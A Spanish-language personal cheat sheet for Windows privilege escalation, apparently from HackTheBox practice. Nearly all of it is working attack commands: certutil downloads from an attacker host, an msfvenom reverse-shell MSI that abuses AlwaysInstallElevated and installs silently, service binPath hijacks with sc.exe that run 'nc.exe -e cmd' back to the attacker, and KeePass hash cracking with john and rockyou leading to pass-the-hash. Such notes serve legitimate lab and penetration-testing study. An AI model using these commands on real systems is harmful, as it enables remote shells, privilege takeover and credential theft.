 # Escalacion de privilegios Windows

Usar **WinPEAS** ya que te escanea y te muestra las vulnerabilidades 
Debemos de descargar el archivo **winPeasx64.exe**
Usamos este comando en la maquina victima Windows para cargar un archivo de la maquina de atacante
❯ **certutil.exe -f -urlcache -split http://10.10.14.2/winPeas.exe winPeas.exe**
Podemos observar que de toda la informacion nos despliega el ‘**Checking AlwaysInstallElevated**’ y tiene:
	* **set 1 in HKLM** 
	* **set 1 in HKCU** lo cual es malo para esa maquina Windows.
Podemos usar el siguiente comando para crear un archivo malicioso y asi explotar la vulnerabilidad anterior
❯ **msfvenon -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 --plataform windows -a 64 -f msi -o reverse.msi** 
	* LHOST ->  IP de atacante
	* LPORT -> puerto Netcat 443
	* p -> payload 
	* a -> arquitectura x64
	* f -> formato
	* nombre del archivo -> reverse.msi
Usamos este comando en la maquina victima Windows para cargar un archivo de la maquina de atacante 
❯ **certutil.exe -f -urlcache -split http://10.10.14.2/reverse.msi reverse.msi**
Para instalar el archivo .msi en una maquina Windows debemos de colocar el siguiente comando:
❯ **msiexec /quiet /qn /i reverse.msi**

****
❯  **whoami /priv** Miramos los privilegios que tenemos  
	**SeInpersonatePrivilege** En el cual podriamos usar RottenPotato o  JuicyPotato 

❯ **Systeminfo** 
	Nos copiamos todo lo que nos salga con ese comando y usaremos un programa llamado '' para deterctar vulnerabilidades en un equipo Windows, todo desde nuestra maquina Linux con el archivo que hemos creado con ese informacion obtenida.

****
❯ **net user < USER>** Nos da detalles de nuestro usuario y vemos a que grupos pertenecemos. El grupo que nos interesa en este caso es **Server Operators** ya que en el podemos administrar controladores de dominio, loggearse a un servicio interactivo, asi como crear, borrar recursos compartidos en la red, iniciar, parar servicios, back up, restaurar archivos, formatear el disco duro de la computadora y apagarla. Por lo que debemos verificar sipertenecemos a este grupo.
Por lo que cargaremos a la maquina Victima Netcat.exe que se encuentra en la maquina Atacante y lo subimos con:
	❯ **upload /home/omar/Docume/HTB/nc.exe** Subimos el archivo del Netcat a la maquina victima 
	
❯ **sc.exe create** **reverse** **binPath=”C:\\Users\\svc-printer\\Documents\\nc.exe -e cmd 10.10.14.10 443”** Le decimos al equipo victima que cuando arranque el servicio queremos que ejecute el netcat y nos ejecute una revershell contra el nuestro equipo por el puerto 443. (create=creamos el servicio, reverse=nombre del servicio) 
Si no nos deja, hacemos lo siguiente:
❯ **Services** Para ver los servicios que estan corriendo en Windows y asi ver si podemos cambiarle el binPath a uno, esto dependiendo si nos encontramos en el grupo de **Server Operators** y asi podernos montar una revershell con algun servicio con sc.exe
	❯ **sc.exe config VMTools binPath=”C:\\Users\\svc-printer\\Documents\\nc.exe -e cmd 10.10.14.10 443”** Colocaremos un servicio que nos deje cambiar su binPath, el servicio va despues de config. (Nos saldra success)
	Despues paramos el servicio que hemos reconfigurado y lo volvemos a iniciar para que se ejecute el netcat.
	❯ **sc.exe stop VMTools** Paramos el servicio
	❯ **sc.exe start VMTools** Iniciamos el servicio
****














- Encontrar un archivo con extencion **.kdbx** 
	Son archivos de datos creados por KeePass 'Password Safe', se refieren a la passwd de base de datos KeePass
	❯ **keepassxc FILE.kdbx** Nos permite abrir un archivo keepass con passwd, de lo contrario hacemos lo siguiente 
	❯ **keepass2john FILE.kdbx > hash** Si no sabemos la passwd, esto no sayuda a extraer un hash para poder hacer fuerza bruta, guardandolo en un archivo llamado hash
	❯ **john --wordlist=/usr/share/wordlists/rockyou.txt hash** Aplicamos un ataque de fuerza bruta a un archivo hash y obtener la passwd que colocaremos en el keepass y nos devolvera otro hash el cual...
	Y todo para poder hacer un 'pass the hash', verificando con crackmapexec y entrando con psexec 
  - 